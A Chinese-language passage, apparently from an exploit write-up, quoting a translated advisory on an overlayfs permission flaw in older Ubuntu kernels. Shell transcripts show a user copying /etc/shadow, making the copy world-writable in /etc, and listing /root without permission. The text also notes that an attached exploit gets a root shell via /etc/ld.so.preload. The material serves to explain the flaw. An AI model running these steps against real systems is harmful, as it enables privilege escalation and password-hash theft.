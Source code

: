 ![](./pic-1/36.jpg)

两个，一个是`c`文件脚本，一个是`txt`文件，都是一样的，只不过`txt`文件去解释了漏洞存在的原因，脚本是直接使用

```shell
来自《Documentation/filesystems/overlayfs.txt》[2]：
“非目录对象（文件、符号链接、设备特殊文件等）会根据情况，从上层或下层文件系统中呈现出来。当下层文件系统中的一个文件以需要写入权限的方式被访问时，例如以写入权限打开、更改某些元数据等，该文件会首先从下层文件系统复制到上层文件系统（即‘向上复制’）。”
ovl_copy_up_* 函数没有正确检查用户是否具有将文件写入上层目录的权限。唯一检查的权限是正在被修改的文件的所有者是否有权限写入上层目录。此外，当一个文件从下层目录复制时，文件元数据会被原样复制，而不是将诸如所有者之类的属性更改为触发 copy_up_* 过程的用户。
创建一个属于 root 用户的文件的 1:1 副本的示例：
（请注意，在较旧的内核上不需要 workdir= 选项）

user@...ntu-server-1504:~$ ./create-namespace
root@...ntu-server-1504:~# mount -t overlay -o
lowerdir=/etc,upperdir=upper,workdir=work overlayfs o
root@...ntu-server-1504:~# chmod 777 work/work/
root@...ntu-server-1504:~# cd o
root@...ntu-server-1504:~/o# mv shadow copy_of_shadow
(exit the namespace)
user@...ntu-server-1504:~$ ls -al upper/copy_of_shadow
-rw-r----- 1 root shadow 1236 May 24 15:51 upper/copy_of_shadow
user@...ntu-server-1504:~$ stat upper/copy_of_shadow /etc/shadow|grep Inode
Device: 801h/2049d      Inode: 939791      Links: 1
Device: 801h/2049d      Inode: 277668      Links: 1

现在，我们可以通过将 “upper” 切换为下层目录选项，把这个文件放置到 /etc 目录中。由于该文件归 root 用户所有，并且 root 用户可以写入 /etc 目录，所以权限检查会通过。

user@...ntu-server-1504:~$ ./create-namespace
root@...ntu-server-1504:~# mount -t overlay -o
lowerdir=upper,upperdir=/etc,workdir=work overlayfs o
root@...ntu-server-1504:~# chmod 777 work/work/
root@...ntu-server-1504:~# cd o
root@...ntu-server-1504:~/o# chmod 777 copy_of_shadow
root@...ntu-server-1504:~/o# exit
user@...ntu-server-1504:~$ ls -al /etc/copy_of_shadow
-rwxrwxrwx 1 root shadow 1236 May 24 15:51 /etc/copy_of_shadow

所附的漏洞利用程序通过创建一个所有人可写的 /etc/ld.so.preload 文件来获取 root 权限的 shell。该漏洞利用程序已在 2015 年 6 月 15 日之前的最新内核上，在 Ubuntu 12.04、14.04、14.10 和 15.04 系统上进行了测试。
也有可能列出系统上任何目录的内容，而无需考虑权限问题：

nobody@...ntu-server-1504:~$ ls -al /root
ls: cannot open directory /root: Permission denied
nobody@...ntu-server-1504:~$ mkdir o upper work
nobody@...ntu-server-1504:~$ mount -t overlayfs -o
lowerdir=/root,upperdir=/home/user/upper,workdir=/home/user/work
overlayfs /home/user/o
nobody@...ntu-server-1504:~$ ls -al o 2>/dev/null
total 8
drwxrwxr-x 1 root nogroup 4096 May 24 16:33 .
drwxr-xr-x 8 root nogroup 4096 May 24 16:33 ..
-????????? ? ?    ?          ?            ? .bash_history
-????????? ? ?    ?          ?            ? .bashrc
d????????? ? ?    ?          ?            ? .cache
-????????? ? ?    ?          ?            ? .lesshst
d????????? ? ?    ?          ?            ? linux-3.19.0
```
